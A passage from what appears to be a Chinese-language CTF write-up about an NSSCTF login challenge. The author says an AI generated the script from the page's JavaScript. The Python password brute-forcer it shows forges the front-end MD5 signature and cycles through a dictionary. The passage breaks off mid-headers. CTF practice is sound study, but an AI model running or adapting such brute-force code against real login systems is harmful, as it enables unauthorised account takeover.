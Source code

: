 ![image-20250530231741501](assets/image-20250530231741501.png)

看一下源码，将js和一个请求投喂给ai，生成破解脚本

```python
import requests
import hashlib
import time
import sys

def md5(text):
    """计算MD5哈希值"""
    return hashlib.md5(text.encode('utf-8')).hexdigest()

def generate_sign(username, password, timestamp, secret_key):
    """生成签名，模拟前端JavaScript的签名生成逻辑"""
    md5_username = md5(username)
    md5_password = md5(password)
    short_user = md5_username[:6]
    short_pass = md5_password[:6]
    sign_str = f"{short_user}{short_pass}{timestamp}{secret_key}"
    return md5(sign_str)

def crack_password(target_url, username, secret_key, dict_path):
    """执行密码爆破"""
    try:
        # 读取密码字典
        with open(dict_path, 'r', encoding='utf-8') as f:
            passwords = [line.strip() for line in f if line.strip()]
        print(f"字典加载成功，共 {len(passwords)} 个密码")
    except Exception as e:
        print(f"字典读取失败: {e}")
        return
    
    # 准备请求头
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Accept': '*/*',
        'Origin': 'http://node6.anna.nssctf.cn:29799',
        'Referer': 'http://node6.anna.nssctf.cn:29799/login.html',
        'Accept-Language': 'zh-CN,zh;q=0.9',
```